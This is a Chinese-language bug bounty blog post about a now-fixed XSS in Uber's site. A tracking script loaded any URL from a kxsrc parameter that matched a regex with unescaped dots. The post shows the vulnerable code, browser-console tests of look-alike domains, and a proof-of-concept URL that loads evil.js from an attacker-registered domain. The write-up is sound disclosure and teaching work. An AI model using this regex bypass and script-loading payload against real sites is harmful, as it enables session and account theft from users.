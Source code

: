 ```yaml
---
layout: post
title: Bypass uber xss regex filter
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - zhchbin</p>

## 前言

&nbsp;&nbsp;&nbsp;两个月前的一天，在Hackerone上看了不少报告之后的我跃跃欲试，不自量力地给自己定下一个目标：一定要找一个能够获得Bounty的漏洞！然后，前后差不多花了三天的时候，找到了Uber网站的一个XSS漏洞。今早也顺利地收获了人生的第一笔奖金，$7000。接下来就分享一下这个漏洞吧。

## 漏洞代码

在看Uber的网站前端JS代码的时候，发现有如下的一段代码：

{% highlight javascript %}
(function() {
    var k = document.createElement('script');  // 创建script标签
    k.type = 'text/javascript';
    k.async = true;
    k.setAttribute("data-id", u.pubid);
    k.className = "kxct";
    k.setAttribute("data-version", "1.9");

    // 从location.href参数中读取kxsrc
    var m, src = (m = location.href.match(/\bkxsrc=([^&]+)/)) && decodeURIComponent(m[1]);

    // 检查kxsrc参数的值是否满足正则，如果满足则加载，否则加载默认的JS文件 
    k.src = /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test(src) ? src : src === "disable" ? "" : (location.protocol === "https:" ? "https:" : "http:") + "//cdn.krxd.net/controltag?confid=" + u.pubid;
    var s = document.getElementsByTagName('script')[0];
    s.parentNode.insertBefore(k, s);
})();
{% endhighlight %}

&nbsp;&nbsp;&nbsp;目前代码还能在：https://tags.tiqcdn.com/utag/uber/main/prod/utag.273.js 看到，不过修复之后相应的网站已经不会加载这个代码文件了。 通过阅读上面这段代码，我们能够知道参数是`kxsrc`是可以被用户控制的，而且如果满足一定条件，该参数所指定的js文件就会被加载。

## 漏洞分析

&nbsp;&nbsp;&nbsp;咋一看，这段代码似乎没有什么问题：JS文件只能是`krxd.net`域下的文件。然而，在正则表达式里：`.`代表的意思是匹配任意字符。我们来做一个简单的实验，F12打开浏览器的调试窗口：

{% highlight javascript %}
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.bkrxd.net/controltag/evil.js')
< true
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.ckrxd.net/controltag/evil.js')
< true
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.dkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.ekrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.fkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://aafkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://abfkrxd.net/controltag/evil.js')
< true
{% endhighlight %}

<img src="http://ww3.sinaimg.cn/large/7184df6bgw1f7otlqoccoj211i03xjsu.jpg">

## PoC

买个域名！部署一下HTTPS！写一个简单的JS文件！添加到参数里！Bingo，就是这么神奇！

{% highlight javascript %}
https://www.uber.com/?exp=hp-c&kxsrc=https%3A%2F%2Fwww.akrxd.net%2Fcontroltag%2Fevil.js
{% endhighlight %}

<img src="http://ww4.sinaimg.cn/large/7184df6bgw1f7otuv4e5hg20sb0k6x6p.gif">